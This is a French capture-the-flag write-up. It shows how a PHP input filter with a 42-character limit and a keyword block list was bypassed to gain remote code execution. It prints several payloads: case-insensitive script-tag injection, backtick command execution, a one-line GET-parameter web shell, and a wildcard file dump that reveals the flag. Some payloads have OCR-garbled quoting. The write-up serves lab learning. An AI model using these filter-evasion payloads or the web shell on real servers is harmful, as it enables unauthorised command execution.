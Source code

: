 # Misc 250 - Outsmarter Filter

L'énonce nous indique que nous devons réaliser une RCE pour
valider l'épreuve mais qu'un filtre est présent. Le filtre recherche :
- Texte de moins de 42 caractères
- Banissement des mots clefs : eval shell exec popen php
- Banissement des opérateurs : ? et ; et $

On va essayer d'injecter du code PHP pour faire notre RCE, nous
testons un simple :
> <?php echo "test"; ?>

Le filtre détecte nos "?", ";" et "php". 
Après avoir regardé la documentation on apprend qu'il est possible
de remplacer la balise php par script language=php, on est débarrassé de nos "?" mais de notre "php".

Et si le script n'était pas sensible à la casse ? On teste notre payload avec "PHP"


><script language='PHP>echo 'Hello'</script>
taille : 42



Celui-ci s'exécute, nous avons donc passé la première partie du challenge, nous sommes capables
d'injecter des commandes PHP. Il nous faut maintenant trouver le flag, la première idée est de lister les
fichiers et dossiers. On essaie donc un appel à system car il n'est pas bloqué :)

><script language='PHP>system('ls')</script>
taille : 42

Le script fonctionne mais on n'obtient rien d'interesssant, on essaie d'afficher les fichiers cachés

><script language='PHP>system('ls -a')</script>
taille : 45


Malheureusement notre payload est trop grand 45 caractères alors que la limite est de 42..Il nous faut
trouver un moyen de le réduire.

Après quelques recherches sur "Mini Shell PHP", on trouve celui-ci : <?=@`$_GET[c]`; Il n'est pas
adapté à cause de ses ";" et "?" mais on va le modifier pour l'utiliser.
Explication du shell
<?=@`$_GET[c]`;

| |
| |
|
------>
Execute
la
commande
système
grace
aux
backticks
:
| ------------> Récupère une commande par GET
----------------> Enleve les erreurs


On peut donc remplacer system('ls') par echo `ls`. Notre payload devient donc :

><script language='PHP>echo `ls`</script>
taille : 39

Parfait la taille est respectée mais on a toujours pas de fichier intéressant. Nous voulons alors inspecter
le contenu d'index.php :
><script language=PHP>echo `cat index.php`</script> taille 50
>
La taille de notre script est trop grande, on le réduit encore :

><script language='PHP>echo `cat i*`</script> taille 43
>
<script language='PHP>echo `cat *`</script> taille 42

><script language='PHP>echo`cat *`</script> taille 41
>

Le contenu des fichiers s'affiche, on peut voir le flag dans index.php “Well done, you found the flag :
**ese{RCE_4ll_th3_dummy_WAFs}**“